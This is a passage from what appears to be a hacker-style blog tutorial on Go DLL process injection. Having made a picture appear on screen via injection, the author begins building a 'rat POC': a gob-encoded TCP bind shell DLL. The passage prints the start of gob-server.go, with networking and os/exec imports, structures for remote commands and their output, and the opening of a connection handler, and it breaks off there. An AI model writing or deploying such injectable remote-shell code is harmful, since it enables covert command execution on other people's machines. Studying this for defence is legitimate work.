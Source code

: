 ![](/assets/images/go-remote-dll-process-injection/example-3-success.png)  

## Sweet! We have consistent results.  

## Ok Tim, thats kewl and all, we can make skript cats appear on the screen, but what about something useful, like a simple gob rat POC.  

**gob is a GoLang library to send encoded data over tcp/ip.**  

## We'll write a gob encoded TCP bind shell DLL in GoLang...  

- gob-server.go  

```go  
// Server

package main

import (
	"C"
	"encoding/gob" // Package for encoding and decoding data
	"fmt"          // Package for formatted I/O
	"net"          // Package for network operations
	"os/exec"      // Package for executing commands
	"strings"      // Package for string operations
)

// Message represents the structure of the message received from the client
type Message struct {
	Content string // Command field holds the command to be executed
}

// Response represents the structure of the response message to be sent to the client
type Response struct {
	Output       string // Output field holds the command execution output
	ErrorMessage string // ErrorMessage field holds the error message, if any
}

// handleConnection is a function that handles the communication with a client connection
func handleConnection(conn net.Conn) {
	// Create a decoder to decode the binary data received from the client connection
	decoder := gob.NewDecoder(conn)
```